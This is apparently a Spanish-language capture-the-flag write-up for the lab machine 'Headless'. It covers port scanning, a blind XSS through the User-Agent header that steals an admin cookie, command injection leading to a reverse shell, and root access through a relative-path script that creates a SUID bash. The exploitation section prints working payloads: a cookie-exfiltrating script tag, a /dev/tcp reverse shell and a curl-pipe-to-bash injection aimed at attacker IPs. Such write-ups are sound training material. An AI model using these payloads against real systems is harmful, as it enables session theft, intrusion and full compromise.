

Headless es una máquina Linux de dificultad fácil que cuenta con un servidor `Python Werkzeug` que aloja un sitio web. El sitio web tiene un formulario de soporte al cliente, que se ha descubierto que es vulnerable a Cross-Site Scripting (XSS) ciego a través del encabezado `User-Agent`. Esta vulnerabilidad se aprovecha para robar una cookie de administrador, que luego se utiliza para acceder al panel de control del administrador. La página es vulnerable a la inyección de comandos, lo que lleva a un shell inverso en el equipo. Al enumerar el correo del usuario se revela un script que no utiliza rutas absolutas, que se aprovecha para obtener un shell como root.


# Enumeración

Iniciamos con la enumeración de los puertos abiertos de la maquina victima.

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.129.72.119 -oG allportsScan
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
5000/tcp open  upnp    syn-ack
```

Luego de obtener los puertos, enumeraremos los servicio y las versiones de los puertos abiertos que encontramos.

```python
❯ nmap -p22,5000 -sC -sV -vvv -Pn -n 10.129.72.119 -oN servicesScan

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
|   256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkBEMKoic0Bx5yLYG4DIT5G797lraNQsG5dtyZUl9nW
5000/tcp open  upnp?   syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 24 Mar 2024 01:38:54 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/23%Time=65FF842E%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Sun,\x2024\x20Mar\x202024\x2001:38:54\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto 5000


Haciendo fuzzing encontraremos con el directorio `Dashboard`


Otro con el directorio `support`


Ahora interceptando con `Burp Suite` encontraremos con una cookie nuestra, que al parecer hace una verificación si somo usuarios privilegiados.


# Explotación

Intentando un `xss` podemos ver que el sitio web bloquea la petición.


Revisando el siguiente sitio web podemos obtener mas información de como obtener una `cookie` de algún usuario administrador:

- [https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)

```python
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.10/?cookie="+btoa(document.cookie);</script>
```

## XSS - Cross Site Scripting

Ahora teniendo claro de como explotar la vulnerabilidad, primero iniciaremos un servidor en Python

```python
❯ python3 -m http.server 80
```

Luego enviamos la petición y vemos que el sitio web detecta el ataque


Pero obtenemos una cookie en base64 que podremos usar en el sitio web


```python
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 
```

Introducimos la `cookie` con la herramienta `cookie-Editor` o simplemente puedes usar la devTools


Luego de recargar el sitio web podemos ver un panel de administrador


## Command Injection

Luego de enumerar con varios métodos, encontramos que podemos ejecutar comandos en `date=2024-03-23; ...` así que haremos uso esto para acceder a la maquina victima.


Ahora creamos un archivo `index.html`

```python
❯ nano index.html 
```

Que contendrá nuestra revershell:

```python
bash -c 'bash -i &>/dev/tcp/10.10.14.10/443 <&1'
```

Y luego iniciamos un servidor con Python en el puerto 80

```python
❯ python3 -m http.server 80
```

Para luego ejecutar un :

```python
date=2024-03-23; curl+10.10.16.7|bash
```

así deberíamos de obtener un revershell
# Escalada de privilegios

## Usuario - dvir




Enumerando la maquina victima con un `sudo -l` encontraremos con permisos que el usuario actual esta ejecutando.


Leemos el código del archivo que tenemos permisos privilegiado, encontramos algo interesante que es `initdb.sh`

```python
dvir@headless:/var/cache$ cat  /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

Buscamos el archivo `initdb.sh`, pero no la encontraremos. Asi que crearemos uno con un contenido malicioso en el cual copiaremos el binario de la `bash` y daremos permiso de `SUID` 

```python
echo "cp /usr/bin/bash bash; chmod +s /tmp/tmp.NWmiRzM84i/bash"  > initdb.sh
```

Luego ejecutaremos con `sudo`

```python
sudo /usr/bin/syscheck
```

Para asi obtener un binario bash con permiso de `SUID` 


## Usuario - root

Haciendo uso de `./bash -p` deberíamos de obtener una shell como usuario root


